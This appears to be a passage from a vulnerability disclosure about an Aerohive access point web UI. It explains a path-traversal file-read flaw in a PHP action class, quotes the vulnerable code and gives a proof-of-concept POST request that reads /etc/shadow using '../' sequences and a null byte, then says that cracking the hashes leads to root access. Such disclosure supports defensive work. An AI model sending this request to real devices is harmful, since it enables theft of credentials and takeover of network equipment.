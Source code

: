 This uses the `action/ActiveAPDetailInfoWebUIAction.class.php5` class, which is also file read, but less simple to the naked eye. Hence why it wasnt immediately "patched" unlike our other vulnerability. 


Proof of concept: 
```
POST /action.php5?_page=ActiveAPDetailInfoWebUI&_action=get&_dc=10000
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=a

macAddr=../../../etc/shadow%00
```


The following source is what lets this occur. 
```php
public function process() {
    AhLogger::getInstance()->info("ActiveAPDetailInfoAction.process called. actionName={$this->actionName}");

    if ($this->actionName == 'get') {
        $mac=$this->user->getMac();
        $mac=AerohiveUtils::macAddrToStr($mac);
        $mac=str_replace('-',':',$mac);
        AhLogger::getInstance()->info(' mac ='.$mac);
        $mac_ap=$_REQUEST['macAddr'];                                 // We control this!
        $mac_ap=str_replace('-',':',$mac_ap);
        AhLogger::getInstance()->info(' mac of ap ='.$mac_ap);

        $webui_file_dir=ConstCommon::BASIC_FILE_DIR.$mac.'.conf';
        $ap_file_dir=ConstCommon::BASIC_FILE_DIR.$mac_ap.'.conf';     // Which means we control this!

        AhLogger::getInstance()->info(' file dir ='.$webui_file_dir.' and '.$ap_file_dir.' isMgtAP = '.$_REQUEST['isMgtAP']);

        $this->readFileContents($webui_file_dir);
        $this->readFileContents($ap_file_dir); //And thus, all your files are belong to us
        if(intval($_REQUEST['isMgtAP'])){
            $webui_wizard_dir=ConstCommon::WIZARD_CONFIG_PATCH.'.conf';
            $this->readFileContents($webui_wizard_dir);     
        }
    } 

```

The same technique applies, get rid of the `.conf` using a good ol' null byte and then you're away!


Using either of these techniques immediately allows an attacker to escalate to device access, which is effectively root. As you can crack the md5crypt passwords in `/etc/shadow` get shell. As mentioned in the previous issues.
